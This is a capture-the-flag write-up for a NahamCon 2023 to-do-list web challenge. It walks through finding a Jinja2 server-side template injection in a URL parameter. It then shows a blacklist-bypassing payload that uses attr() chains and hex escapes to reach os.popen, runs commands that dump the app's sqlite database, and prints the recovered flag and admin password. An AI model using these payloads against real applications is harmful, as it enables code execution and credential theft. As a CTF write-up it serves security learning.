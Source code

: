 >Author: @congon4tor#2334  
>  
>Every Capture the Flag competition has to have an obligatory to-do list application, right???
---------------------------------
Firstly, we are greeted with a sign-in page

![Pasted image 20230616165433.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165433.png)
Typical admin:admin guesses do not work, so after making a new account

![Pasted image 20230616165611.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616165611.png)

I created a new task `asdf`, and this is the result. After exploring the POST parameters done during submission, as well as how things are altered when tasks are moved between active and completed, I did not see any interesting pattern. The most notable piece is that trashing my first task leads to `http://challenge.nahamcon.com:32053/delete?id=2`. However, `id=1` appears inaccessible. 

When I turned my attention to the greentext, I noticed in the url we see this as well:
`http://challenge.nahamcon.com:32053/?success=Task%20created`
Editing the success= component will affect what is being displayed in green. After playing for a bit, I noticed that this is actually vulnerable to SSTI:
`http://challenge.nahamcon.com:32053/?success={{7*7}}`

![Pasted image 20230616154856.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616154856.png)

Doing actions such as `curl -v` did not give any insight on the framework being used, but exploring the SSTI a little further gave me the impression that this is likely Jinja2:
`http://challenge.nahamcon.com:32053/?success={{7*'7'}}``

![Pasted image 20230616155028.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616155028.png)

Knowing this, I tried some simple enumerations before I find the true difficulty of this challenge:
`http://challenge.nahamcon.com:32053/?success={{config}}`

![Pasted image 20230616170342.png](https://github.com/spencerja/NahamConCTF_2023_Writeup/blob/main/Web/Images/Pasted%20image%2020230616170342.png)

```
HACKER DETECTED!!!!  
The folowing are not allowed: [ {{\s*config\s*}},.*class.*,.*mro.*,.*import.*,.*builtins.*,.*popen.*,.*system.*,.*eval.*,.*exec.*,.*\..*,.*\[.*,.*\].*,.*\_\_.* ]
```

It wasn't obvious to me at first, but the real trouble is that any command containing a dot, or square brackets, is blocked.
After spending a good amount of time looking for ways to bypass the filter, I eventually ran into [this post](https://hackmd.io/@Chivato/HyWsJ31dI). Importantly, the writer manages to create a payload to bypass ".","\_", "[]", and even "|join". 

```
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

Our blacklist also includes some functions that were used, which I bypassed by breaking between quotes (popen -> po''pen).

```
http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27id%27)|attr(%27read%27)()}}
```

![[Pasted image 20230616171249.png]]

We have successful code execution!! Now all that remains is to find the flag.

After some enumeration of where the flag might be, I began to think that perhaps there isn't a `flag.txt` file after all. When I check the contents of the cwd:
```bash
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 DB
-rw-r--r--    1 root     root           159 Jun 14 17:53 app.ini
-rwxr-xr-x    1 root     root          6693 Jun 14 17:53 app.py
-rw-r--r--    1 root     root           792 Jun 14 17:53 models.py
-rw-r--r--    1 root     root           138 Jun 14 17:53 requirements.txt
drwxr-xr-x    2 root     root          4096 Jun 14 17:53 templates
```
I notice the DB folder, and I recall that my task id's started at 2. Perhaps the flag is in admin's task list, for id number 1?

Looking inside the DB folder:
```
drwxr-xr-x    1 uwsgi    uwsgi         4096 Jun 16 20:55 .
drwxr-xr-x    1 root     root          4096 Jun 14 17:54 ..
-rw-r--r--    1 uwsgi    uwsgi        16384 Jun 16 20:55 db.sqlite
```

Unfortunately, opening a sqlite file is a bit tricky with the RCE that I am currently using. Moreover, dots are still blacklisted. It is fortunate that this folder only has one file, so we can use wildcard * to select `db.sqlite` without using dot. When I try `cat /usr/src/app/DB/*`:

![[Pasted image 20230616172048.png]]

It seems there are issues when trying to output invalid characters, causing the internal server error. As a last attempt, I decided to try `strings`, which should only output legitimate utf-8 friendly characters. However, it is not guaranteed that the flag could remain intact for this.

Request:
```
view-source:http://challenge.nahamcon.com:32053/?success={{request|attr(%27application%27)|attr(%27\x5f\x5fglobals\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fbuil%27%27tins\x5f\x5f%27)|attr(%27\x5f\x5fgetitem\x5f\x5f%27)(%27\x5f\x5fimp%27%27ort\x5f\x5f%27)(%27os%27)|attr(%27po%27%27pen%27)(%27strings%20/usr/src/app/DB/db*%27)|attr(%27read%27)()}}
```

Output:
```bash
tabletasktask
CREATE TABLE task (
	id INTEGER NOT NULL, 
	name VARCHAR(100), 
	completed BOOLEAN, 
	user_id INTEGER, 
	PRIMARY KEY (id), 
	CHECK (completed IN (0, 1)), 
	FOREIGN KEY(user_id) REFERENCES user (id)
tableuseruser
CREATE TABLE user (
	id INTEGER NOT NULL, 
	username VARCHAR(40), 
	password VARCHAR(50), 
	PRIMARY KEY (id), 
	UNIQUE (username)
indexsqlite_autoindex_user_1user
asdfasdf
-adminT2dUL6Z#S9KH%x%i
asdf
	admin
asdf
	flag{7b5b91c60796488148ddf3b227735979}
```

Very foturnately, the flag not only survived but is very readable!
`flag{7b5b91c60796488148ddf3b227735979}`

As a side note, we have the password for `admin` now too, and can log in.
`admin:T2dUL6Z#S9KH%x%i`

![[Pasted image 20230616172852.png]]


